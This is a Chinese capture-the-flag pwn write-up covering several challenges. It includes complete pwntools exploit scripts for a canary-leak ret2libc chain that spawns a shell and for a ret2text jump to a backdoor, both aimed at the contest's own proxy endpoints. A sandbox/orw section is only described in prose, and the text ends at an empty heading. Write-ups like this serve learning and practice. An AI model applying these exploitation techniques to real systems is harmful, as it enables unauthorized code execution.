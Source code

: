 CrazyCat-pwn
![[Pasted image 20250121140940.png]]
~~做了两题就去春秋杯了，结果春秋杯爆零，还不如把这个做完QAQ。~~
# ezlibc
![[Pasted image 20250121141259.png]]
一道简单的`ret2libc`的题目，开启`canary`，得先想办法泄漏`canary`。
![[Pasted image 20250121141418.png]]
![[Pasted image 20250121141711.png]]
虽然有`printf`函数，但不能直接泄漏地址，但`printf`会一直输出直到`\x00`，那么把`canary`前填充满`deadbeef`就能泄漏`canary`。
泄漏`canary`后在构造ROP泄漏地址，获取`libc`基址并重新调用`read`函数进行第三次溢出来获取`shell`。
exp:
```python
from pwn import *

# from LibcSearcher import LibcSearcher

from wstube import websocket

  

context.log_level = 'debug'

local = True

if local:

p = process('./ezlibc')

pwnlib.gdb.attach(p, 'b bug')

else:

p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471c6-5bcb-772c-b85c-78d6ad4f3ed1')

  

elf = ELF('./ezlibc')

  

payload = b'a' * (0x29)

p.send(payload)

p.recvuntil(b'a' * 0x29)

canary = u64(b'\x00' + p.recv(7))

log.success('canary: ' + hex(canary))

  

rdi = 0x400843

puts_got = elf.got['puts']

puts_plt = elf.plt['puts']

bug = 0x4006e7

payload = b'a' * (0x28) + p64(canary) + b'a' * 8 + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(bug)

p.recvuntil(b'closer to the key')

p.send(payload)

  

p.recvuntil(b'keep trying\n')

puts_addr = u64(p.recv(6).ljust(8, b'\x00'))

  

'''libc = LibcSearcher('puts', puts_addr)

base = puts_addr - libc.dump('puts')

system = base + libc.dump('system')

binsh = base + libc.dump('str_bin_sh')'''

  

ret = 0x40059e

log.success('puts_addr: ' + hex(puts_addr))

base = puts_addr - 0x80970

system = base + 0x4f420

binsh = base + 0x1b3d88

  

payload = b'a' * (0x28) + p64(canary) + b'a' * 8 + p64(ret) + p64(rdi) + p64(binsh) + p64(system)

p.send(payload)

p.sendafter(b'closer to the key', b'a')

  

p.interactive()
```
shell:
![[Pasted image 20250121160630.png]]
# ret2text
简单的`ret2text`类型题目
找到溢出点，`backdoors`，构造`payload`即可。
exp:
```python
from pwn import *

# from LibcSearcher import LibcSearcher

from wstube import websocket

  

context.log_level = 'debug'

local = False

if local:

p = process('./1')

pwnlib.gdb.attach(p, 'b main')

else:

p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471ee-7eac-765f-ae48-e2b9fb68618e')

  

backdoor = 0x40115a

payload = b'a' * (0xa + 8) + p64(backdoor)

p.send(payload)

p.interactive()
```
shell:
![[Pasted image 20250121161101.png]]

# sandbox
一道简单的orw类型题目。
seccomp后可以看到只禁用了execve。
![[Pasted image 20250121161542.png]]
可以构造最普通的orw。
![[Pasted image 20250121161640.png]]
![[Pasted image 20250121161654.png]]
可以看见开启了canary，有栈溢出和格式化字符串漏洞，那么先用格式化字符串漏洞泄漏canary和libc的基址。
# 宇宙射线
